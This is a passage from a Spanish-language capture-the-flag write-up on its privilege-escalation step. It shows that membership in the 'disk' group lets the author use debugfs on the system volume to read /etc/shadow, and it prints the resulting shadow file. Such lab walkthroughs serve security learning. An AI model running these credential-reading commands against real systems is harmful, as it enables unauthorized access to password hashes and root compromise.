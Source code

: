 # Escalada de Privilegios

Siguiendo con mi típica enumeración, lo que siempre hago es mirar los grupos de los usuarios para ver si se pueden aprovechar de alguna forma.

```bash
id
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```

El usuario **dora** está en un grupo interesante: **(disk)**.

Buscando en google me encuentro con este artículo [Disk-Group-privilege-escalation](https://www.hackingarticles.in/disk-group-privilege-escalation/) (Para más información)

En el cual me encuentro esto:

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250302000807.png">
</p>

Por tanto, podríamos tratar de leer el archivo `/etc/shadow` con estos comandos.

```bash
# En la máquina víctima

debugfs /dev/mapper/ubuntu--vg-ubuntu--lv # Este es el disco del sistema en cuestión
debugfs: cat /etc/shadow
```
Y este seria el contenido del `/etc/shadow`

```bash
debugfs:  cat /etc/shadow
root:<ROOT_HASH>::
daemon:*:19235:0:99999:7:::
bin:*:19235:0:99999:7:::
sys:*:19235:0:99999:7:::
sync:*:19235:0:99999:7:::
games:*:19235:0:99999:7:::
man:*:19235:0:99999:7:::
lp:*:19235:0:99999:7:::
mail:*:19235:0:99999:7:::
news:*:19235:0:99999:7:::
uucp:*:19235:0:99999:7:::
proxy:*:19235:0:99999:7:::
www-data:*:19235:0:99999:7:::
backup:*:19235:0:99999:7:::
list:*:19235:0:99999:7:::
irc:*:19235:0:99999:7:::
gnats:*:19235:0:99999:7:::
nobody:*:19235:0:99999:7:::
systemd-network:*:19235:0:99999:7:::
systemd-resolve:*:19235:0:99999:7:::
systemd-timesync:*:19235:0:99999:7:::
messagebus:*:19235:0:99999:7:::
syslog:*:19235:0:99999:7:::
_apt:*:19235:0:99999:7:::
tss:*:19235:0:99999:7:::
uuidd:*:19235:0:99999:7:::
tcpdump:*:19235:0:99999:7:::
landscape:*:19235:0:99999:7:::
pollinate:*:19235:0:99999:7:::
usbmux:*:19381:0:99999:7:::
```
